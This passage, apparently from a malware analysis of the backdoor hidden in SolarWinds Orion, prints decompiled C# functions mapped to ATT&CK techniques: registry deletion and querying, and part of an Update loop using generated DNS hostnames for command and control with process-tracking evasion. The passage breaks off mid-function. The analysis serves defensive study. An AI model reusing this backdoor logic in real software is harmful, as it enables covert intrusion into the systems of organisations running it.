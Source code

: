 ```csharp
public static void DeleteRegistryValue(string[] args)
{
	OrionImprovementBusinessLayer.RegistryHelper.DeleteValue(args[0], args[1]);
}
```
<br /><br />
Get all registry keys and values - T1012 Query Registry

```csharp
public static void GetRegistrySubKeyAndValueNames(string[] args, out string result)
{
	result = OrionImprovementBusinessLayer.RegistryHelper.GetSubKeyAndValueNames(args[0]);
}
```
<br /><br />
Update - T1568.002 Domain Generation Algorithms & T1071.004 Application Layer Protocol: DNS

```csharp
private static void Update()
{
	bool flag = false;
	OrionImprovementBusinessLayer.CryptoHelper cryptoHelper = new OrionImprovementBusinessLayer.CryptoHelper(OrionImprovementBusinessLayer.userId, OrionImprovementBusinessLayer.domain4);
	OrionImprovementBusinessLayer.HttpHelper httpHelper = null;
	Thread thread = null;
	bool flag2 = true;
	OrionImprovementBusinessLayer.AddressFamilyEx addressFamilyEx = OrionImprovementBusinessLayer.AddressFamilyEx.Unknown;
	int num = 0;
	bool flag3 = true;
	OrionImprovementBusinessLayer.DnsRecords dnsRecords = new OrionImprovementBusinessLayer.DnsRecords();
	Random random = new Random();
	int a = 0;
	if (!OrionImprovementBusinessLayer.UpdateNotification())
	{
		return;
	}
	OrionImprovementBusinessLayer.svcListModified2 = false;
	int num2 = 1;
	while (num2 <= 3 && !flag)
	{
		OrionImprovementBusinessLayer.DelayMin(dnsRecords.A, dnsRecords.A);
		if (!OrionImprovementBusinessLayer.ProcessTracker.TrackProcesses(true))
		{
			if (OrionImprovementBusinessLayer.svcListModified1)
			{
				flag3 = true;
			}
			num = (OrionImprovementBusinessLayer.svcListModified2 ? (num + 1) : 0);
			string hostName;
			if (OrionImprovementBusinessLayer.status == OrionImprovementBusinessLayer.ReportStatus.New)
			{
				hostName = ((addressFamilyEx == OrionImprovementBusinessLayer.AddressFamilyEx.Error) ? cryptoHelper.GetCurrentString() : cryptoHelper.GetPreviousString(out flag2));
			}
			else
			{
				if (OrionImprovementBusinessLayer.status != OrionImprovementBusinessLayer.ReportStatus.Append)
				{
					break;
				}
```